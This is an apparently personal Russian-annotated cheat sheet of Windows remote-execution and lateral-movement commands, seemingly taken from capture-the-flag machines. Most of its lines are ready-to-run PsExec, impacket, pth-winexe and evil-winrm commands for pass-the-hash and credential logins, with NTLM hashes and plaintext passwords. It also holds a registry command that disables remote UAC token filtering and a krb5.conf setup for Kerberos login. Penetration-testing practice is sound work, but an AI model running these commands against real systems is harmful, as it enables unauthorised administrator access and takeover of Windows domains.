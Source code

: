 PsExec64.exe \\dc01 cmd.exe   (порт 445 smb)

Psexec -i \\192.168.50.200 -u administrator -s cmd.exe Привелигерованный режим... (если уже админ то ситем)

Имперсонификация PsExec64.exe -i -s cmd PsExec64.exe -i -u "nt authority\local service" cmd

impacket-psexec authority.htb/svc_@10.10.11.222 -s cmd (нужен пароль)

impacket-psexec Administrator@192.168.50.200 -hashes aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71

psexec.py egotistical-bank.local/administrator@10.10.10.175 -hashes d9485863c1e9e05851aa40cbb4ab9dff:d9485863c1e9e05851aa40cbb4ab9dff

для psexec reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f


impacket-wmiexec active.htb/Administrator:Ticketmaster1968@10.10.10.100

impacket-wmiexec -hashes :9935hash domain/administratot@192.168.50.123 "ipconfig"   (на 135 порту wmi)

impacket-wmiexec -hashes :a57b67b0bfe5dbd258226194f0caf201 corp/mary@192.168.x.xx

impacket-wmiexec -hashes aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71 root.dc/administrator@192.168.50.200  (CMD не надо!!!)


pth-winexe -U ROOT.DC/Administrator%Password123 //192.168.50.200 cmd  (протокол smb порт 445) 

pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71 //192.168.50.200 cmd

evil-winrm -i 192.168.50.200 -u Administrator -H 58a478135a93ac3bf058a5ea0e8fdb71   (протокол winRM порт 5985 или 5986)

evil-winrm -i 10.129.216.184 -u svc_ -p _1n_th3_cle4r!
      - menu (можно обходить повершелл)
      
evil-winrm -i 10.10.11.152 -c cert.pem -k key.pem -S (для захода по сертификату)

evil-winrm -r SCRM.LOCAL -i dc1.scrm.local (для захода по kerberos)

in /etc/krb5.conf

[libdefaults]
	default_realm = SCRM.LOCAL

[realms]
	SCRM.LOCAL = {
		 kdc = dc1.scrm.local 
   }

[domain_realm]
scrm.local = SCRM.LOCAL
	scrm.local = SCRM.LOCAL


smbexec administrator:pasword123@192.168.50.200
